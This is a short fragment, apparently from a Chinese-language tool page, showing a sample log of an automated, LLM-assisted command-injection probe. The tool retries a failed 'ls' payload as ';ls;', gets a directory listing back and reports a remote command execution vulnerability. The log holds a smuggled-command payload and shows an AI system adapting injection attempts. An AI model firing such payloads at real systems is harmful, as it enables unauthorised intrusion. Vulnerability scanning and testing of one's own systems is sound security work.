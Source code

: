 **失败后调整策略：**  
  
```
[尝试第 1 次] 使用payload: ls
响应状态码: 200
响应内容: Error: command not found
未检测到漏洞，尝试调整攻击策略...
调整后的payload: ;ls;
[尝试第 2 次] 使用payload: ;ls;
响应状态码: 200
响应内容: bin  boot  etc  home
LLM分析结果：
该响应表明命令'ls'被成功执行，系统存在远程命令执行（RCE）漏洞。
检测到RCE漏洞！
```  
  
  
  
  
  
